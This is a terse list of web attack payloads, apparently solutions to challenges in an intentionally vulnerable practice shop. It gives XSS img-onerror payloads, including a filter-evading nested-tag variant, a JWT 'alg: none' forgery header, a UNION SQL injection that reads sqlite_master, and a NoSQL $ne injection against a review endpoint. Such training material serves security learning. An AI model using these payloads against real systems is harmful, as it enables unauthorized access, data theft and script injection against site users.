 1. Search bar:

   `<img src='1' onerror='alert(1)'>`

2. Customer feedback:

    `<<script<>img</img> src='1' onerror='alert(1)'></img>`

3. Support chat:

    `{"typ":"JWT","alg":"none"}`

4. Product search (`/rest/products/search?q=`):

    URL encoded: `a')) UNION SELECT 1, tbl_name, "a", 1, 2, null, null, null, null FROM sqlite_master WHERE type="table" --`

5. Edit review `PATCH /rest/products/reviews`:

   `"id": {"$ne": "a"},`
